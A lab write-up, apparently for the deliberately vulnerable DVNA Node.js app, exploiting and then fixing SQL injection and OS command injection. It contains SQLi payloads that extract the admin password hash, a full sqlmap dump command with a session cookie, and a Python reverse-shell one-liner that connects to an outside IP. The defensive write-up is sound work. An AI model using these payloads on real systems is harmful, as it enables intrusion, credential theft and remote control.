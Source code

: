 # sql Injection
## Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```


---
## The Vulnerability 

No input validation or sanitization for user controlled inputs

`db.sequelize.query` is a method in the Sequelize ORM (Object-Relational Mapping) library for Node.js that can be used to execute raw SQL queries against a database.

<p>
By default, db.sequelize.query will use parameterized queries, meaning that any input values will be automatically escaped and treated as parameters rather than being concatenated into the SQL string. This helps to prevent SQL injection attacks and makes the query more efficient, as the database can cache the execution plan for the query.

However, it is possible to disable parameterization and use raw SQL queries by passing the `raw: true` option to the db.sequelize.query method. In this case, you should be careful to manually escape any input values to prevent SQL injection vulnerabilities.
</p>

You can check if the raw option is set to true or not by looking at the second parameter of the db.sequelize.query method.

If the second parameter is an object that contains a raw property set to true, then the query is a raw SQL query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464025-25a66d2b-685f-4b6f-bb59-1ab16c589e38.png)

On the other hand, if the second parameter is not an object, or if it is an object that does not contain a raw property set to true, then the query is a parameterized query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464100-51b4295b-3303-4966-9574-53301f8906e8.png)


<br>

---

## The fix

We can use `model's` `find` function and rely on in-built input sanitization of sequelize.

### Edits to the `core\appHandler.js`

```js
module.exports.userSearch = function (req, res) {
//Comment out the following lines 
	//var query = "SELECT name,id FROM Users WHERE login='" + req.body.login + "'";
	//db.sequelize.query(query, {
	//	model: db.User
	//}).then(user => {
	//	if (user.length) {
		db.User.find({where:{'login':req.body.login}}).then(user => {
			if (user) {
			var output = {
				user: {
					//name: user[0].name,
					//id: user[0].id
					name: user.name,
					id: user.id
				}
			}
			res.render('app/usersearch', {
				output: output
			})
		} else {
			req.flash('warning', 'User not found')
			res.render('app/usersearch', {
				output: null
			})
		}
	}).catch(err => {
		//req.flash('danger', 'Internal Error')
		req.flash('yei', 'Fixed it')
		res.render('app/usersearch', {
			output: null
		})
	})
}
```


---

--- 

## Automating with SQLMAP

#### Dumping database with sqlmap

```
sqlmap --dbms=mysql -u "http://142.93.172.244:9090/app/usersearch" --data="login=1" -D "dvna" --tables --cookie="connect.sid=s%3Ab8IWfEtcFY0LxSty7cifwo4izX3108fO.%2Fr17H%2FAZe%2B%2BkwLexqb0ose9ZRx5qe%2FmQn7X%2FWFmdoEA" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36" --referer="http://142.93.172.244:9090/app/usersearch" --delay=0 --timeout=30 --retries=0 --level=5 --risk=3 -T "Users" --dump

```




<br><br>

# OS Command Injection

## Exploiting
##### Intended behaviour
```
Enter a valid IP
8.8.8.8
```
##### Exploiting by appending a OS command 
```
# List the files
8.8.8.8, ls

# Get the effective username of the current user when invoked
8.8.8.8, whoami
```

##### Getting a reverse shell
```
# Start a listener on your public IP
nc -nlvp 4444

# Run the following in vulnerable app function
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.66.98",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```


### Vulnerability 

~~~
'exec' method can execute arbitrary OS commands
~~~


### The fix

~~~
We can use `exec_file` or `spawn` method under child_process which will prevent arbitrary command execution.
~~~

### Edits to the `core\appHandler.js`

```js
// Remove the following line or replace 'exec' with 'execFile'
const exec = require('child_process').exec;

// Add the follwing line 
const execFile = require('child_process').execFile;
```

Then 
```js
// Remove/Replace the line 
exec('ping -c 2 ' + req.body.address, function (err, stdout, stderr) {

// Add the line
execFile('ping', ['-c', '2', req.body.address] , function(err,stdout,stderr){
```



